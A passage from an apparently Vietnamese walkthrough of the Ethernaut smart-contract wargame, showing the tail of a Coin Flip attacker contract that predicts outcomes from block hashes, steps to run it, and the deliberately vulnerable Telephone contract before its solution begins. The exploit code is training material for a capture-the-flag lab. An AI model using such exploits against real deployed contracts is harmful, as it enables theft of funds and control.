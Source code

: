 ```js
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    return coinFlip == 1 ? true : false;
  }

  function flip() public {
    bool guess = calc();
    cf.flip(guess);
  }
}
```

- Compile contract này và chạy function flip *bằng tay* 10 lần trên Remix, nhớ để Gas Limit  và Gas Price cao một chút để tránh bị *out of gas* và để transaction được confirm nhanh hơn.

- Trên chrome console, kiểm tra lại số lần liên tiếp đoán đúng, 10 lần là được

```js
await contract.consecutiveWins().then(x => x.toNumber())
```

- Submit & all done!

![completed]({{site.url}}/assets/images/ethernaut-completed.png)

## 4. Telephone

**Nhiệm vụ**: chiếm quyền owner

```js
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Telephone Solution
